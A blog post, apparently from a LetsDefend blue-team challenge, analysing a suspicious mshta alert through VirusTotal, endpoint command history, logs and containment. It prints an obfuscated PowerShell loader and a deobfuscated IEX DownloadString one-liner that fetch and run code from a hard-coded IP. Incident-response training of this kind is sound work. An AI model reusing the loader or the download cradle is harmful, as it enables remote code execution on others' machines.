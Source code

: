 ```yaml
---
layout: post
published: true
title: write up - suspicious mshta behavior
author: admin
comments: true
date: '2022-04-13 18:00'
categories:
  - DFIR
---
```


I've been trying out [letsdefend.io](https://letsdefend.io/) for a couple of week, and here's a write up of one of the challenge. its a platform to hone your blue teaming skill, you will be using some sort of SIEM apps and act as an analyst, i.e. finding IOC and deciding escalation etc. There are not a lot of blue team training site, and this hands on concept by [letsdefend.io](https://letsdefend.io/) is great. 

With that intro about [letsdefend.io](https://letsdefend.io/) out of the way, here goes the write up. 
<!--more-->

![mshta behaviour](/images/wup_ld.png)

This is what the case looked like, basically a host execute hta file thus an alert is triggered. Our job is to see what really happened and do the intended playbook exercise. Some things that we can check to help with analysis are the hash (virustotal) and the IP address (we'll try command history/ proccess history at the endpoint security tab). Afterward we are gonna decide on containment (eradication and recovery) and last the lesson learned from said incident.

#### virustotal

We can use the hash we found at the first picture to search scan result at virustotal. The [result on virustotal](https://www.virustotal.com/gui/file/886095c7861a068d1ee603c71cb161f256941e802e743fe2161f30013947a2f1/detection) look pretty bad, 23/58 malicious flag. you could also try to find the file and do more analysis, but for now I think we can move to endpoint security tabs and do more analysis there.

#### endpoint security

![wup_endpoint](/images/wup_endpoint.png)

We use endpoint security tab to find out what was happening in the host 172.16.17.38. 
The screenshot above is from the command history portion of the tab, where we can see the first command line that trigger the alert, followed by another not so clear command.

```bash 
C:/Windows/System32/mshta.exe C:/Users/roberto/Desktop/Ps1.hta
```

The first command above is what triggered the alert. Mshta is a trusted Microsoft binary that in this case is abused for execution of the Ps1.hta file. 
you can see the related explanation here at the [MITRE](https://attack.mitre.org/techniques/T1218/005/)

Now we tried a bit of magic at the second command so it will be more readable. 

```bash
function H1($i) 
{$r = '' ; for ($n = 0; $n -Lt $i.LengtH; $n += 2)
{$r += [cHar][int]('0x' + $i.Substring($n,2))}return $r};
$H2 = (new-object ('{1}{0}{2}' -f'WebCL','net.','ient'));
$H3 = H1 '446f776E';
$H4 = H1 '6C6f';
$H5 = H1 '616473747269';
$H6 = H1 '6E67';
$H7 = $H3+$H4+$H5+$H6;
$H8 = $H2.$H7('http://193.142.58.23/Server.txt');
iEX $H8
```

* $H3-H6 with the help of $H1 just basically hex that reads "Downloadstring". 
* $H2 was a glorified "New-Object Net.WebClient". 
* $H8 puts them all together to form an old fashion download using powershell from address mentioned in $H8. 

Together they'll probably looked like 
```bash 
IEX (New-Object Net.WebClient).DownloadString('http://193.142.58.23/Server.txt').
```

So it's a call to C2 server 193.142.58.23, probably trying to download something.

#### log management

After seeing what the script do, we best check log management and try to see did the host (172.16.17.38) managed to reach the C2 server (193.142.58.23) what the C2 server reply with. We can do this by filtering source/ dest. address using host and/or C2 server IP that we had before. Below is the filtered result of from the log management tabs.

![wup_endpoint](/images/wup_logmgmt.png)

There we can see that the C2 server replied with 404, so no response arrived for the host (172.16.17.38) because the server is dead/ the file was not there.

#### containment and lesson learned

Based on our previous analysis, we can safely conclude that its a malicious script, but stopped due to the C2 server is dead. 
Next step would be to contain the host. We can do this by going to endpoint security and use the request containment button. 

Lastly, we can use the IP address, and URL and also the md5 hash of the executed file can as IOC when we did the playbook and also close the case.



